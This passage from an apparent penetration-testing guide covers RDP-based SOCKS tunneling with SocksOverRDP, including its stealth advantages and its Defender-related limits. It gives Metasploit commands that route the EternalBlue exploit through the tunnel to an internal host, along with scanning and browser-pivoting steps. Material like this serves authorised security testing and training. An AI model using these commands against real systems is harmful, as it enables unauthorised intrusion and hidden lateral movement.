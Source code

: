 ### **When to Use SocksOverRDP**
✅ **Windows-only environments**  
✅ **RDP access available**  
✅ **SSH/other tools blocked**  
✅ **Need stealth tunneling**  
✅ **Multiple RDP hops required**  

### **Limitations**
❌ **Requires RDP access**  
❌ **Windows Defender interference**  
❌ **DLL registration traces**  
❌ **Performance overhead**  
❌ **Complex multi-step setup**  

---

## **12. Integration with Other Tools**

### **Metasploit Integration**
```bash
# Use SocksOverRDP with Metasploit
# Configure proxy in msfconsole
setg Proxies socks5:127.0.0.1:1080

# All payloads will route through RDP tunnel
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 172.16.6.155
exploit
```

### **Nmap Through RDP Tunnel**
```bash
# Install Linux tools on Windows (WSL)
# Or use PowerShell equivalents
Test-NetConnection 172.16.6.0/24 -Port 80,443,3389

# Through Proxifier (configure Nmap to use SOCKS)
# Or use Windows port scanners
```

### **Web Browser Pivoting**
```
# Proxifier automatically routes browser traffic
# Access internal web applications:
# http://172.16.6.155
# https://internal.domain.local
# All traffic routes through RDP tunnel
```

---
